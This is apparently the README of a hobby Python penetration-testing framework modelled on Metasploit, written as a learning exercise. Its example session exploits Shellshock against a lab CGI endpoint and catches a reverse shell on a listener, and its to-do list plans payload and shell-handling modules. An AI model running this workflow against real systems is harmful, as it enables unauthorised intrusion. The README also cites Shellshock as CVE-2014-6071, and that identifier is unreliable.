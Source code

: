 # pysploit

This is a metasploit-like framework for system exploitation and penetration 
testing written in python. It is a work in progress and is an educational 
exercise for me so I learn how things actually work and stop being such a skid.

### Example of exploitation of the shellshock vulnerability (CVE-2014-6071)

```
[+]	New session created
pysploit> exploit load shellshock
exploit (shellshock)> exploit options
[~]	Exploit options	[~]
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
victim_ip               |		None
victim_port             |		None
attacker_ip             |		None
attacker_port           |		None
cgi_path                |		None
payload                 |		None
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
exploit (shellshock)> exploit set victim_ip 192.168.56.101
exploit (shellshock)> exploit set victim_port 80
exploit (shellshock)> exploit set attacker_ip 192.168.56.102
exploit (shellshock)> exploit set attacker_port 4444
exploit (shellshock)> exploit set cgi_path /cgi-bin/status
exploit (shellshock)> exploit set payload [Not configured as of now]
exploit (shellshock)> exploit run
[*]	Checking for vulnerability
	[*]	Injecting with test nonce 13b64e57dbff4e63b412d40f02ecc933
	[+]	Received vulnerable output from target!
	[+]	Target 192.168.56.101 is vulnerable to shellshock
[*]	Running exploit for shellshock on 192.168.56.101
	[*]	Shell injection sent (reverse catch at 192.168.56.102:4444)
	[+] Shell caught by listener!
[+]	Exploitation completed!
exploit (shellshock)>
```

And on our listening machine...

![We have a catch!](http://imgur.com/a/pnayj)

### =-=-=-= To Do =-=-=-=

* Build network module for the framework to handle file-dropping, multi-stage payload uploading, shell-hand
ling, etc.

* Create some payloads / payload execution frameworks (based off of network module interactions)

* Potentially migrate exploitation into Twisted protocols that are created by the exploits (?)